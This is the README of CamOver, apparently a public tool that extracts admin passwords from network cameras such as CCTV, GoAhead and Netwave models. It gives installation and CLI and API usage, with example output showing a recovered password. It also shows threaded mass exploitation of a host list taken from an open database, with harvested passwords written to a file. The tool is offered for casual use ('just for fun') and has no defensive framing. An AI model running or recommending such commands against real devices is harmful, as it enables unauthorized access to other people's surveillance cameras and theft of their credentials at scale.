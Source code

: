 # CamOver

 CamOver is a camera exploitation tool that allows to disclosure network camera admin password.

## Features

* Exploits vulnerabilities in most popular camera models such as `CCTV`, `GoAhead` and `Netwave`.
* Optimized to exploit multiple cameras at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/CamOver
```

## Basic usage

To use CamOver just type `camover` in your terminal.

```
usage: camover [-h] [--threads] [--output OUTPUT] [--input INPUT]
               [--address ADDRESS]

CamOver is a camera exploitation tool that allows to disclosure network camera
admin password.

optional arguments:
  -h, --help         show this help message and exit
  --threads          Use threads for fastest work.
  --output OUTPUT    Output result to file.
  --input INPUT      Input file of addresses.
  --address ADDRESS  Single address.
```

### Examples

Let's hack my camera just for fun.

```shell
camover --address 192.168.99.100
```

**output:**

```shell
[*] (192.168.99.100) - connecting to device...
[*] (192.168.99.100) - accessing device rom...
[*] (192.168.99.100) - extracting admin password...
[i] (192.168.99.100) - password: mamahacker123
```

Let's try to use opened database of hosts with `--threads` for fast exploitation.

```shell
camover --threads --input cameras.txt --output passwords.txt
```

It will exploit all cameras in `cameras.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

**output:**

```shell
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #2 completed.
```

## CamOver API

CamOver also has their own Python API that can be invoked by importing CamOver to your code:

```python
from camover import CamOver
```

### Basic functions

There are all CamOver basic functions that can be used to exploit specified device.

* `connect(host)` - Connect specified defice by network address.
* `exploit(device)` - Exploit connected device.

### Examples

```python
from camover import CamOver

camover = CamOver()

camera = camover.connect('192.168.99.100')
print(camover.exploit(camera))
```

**output:**

```shell
'mamahacker123'
```
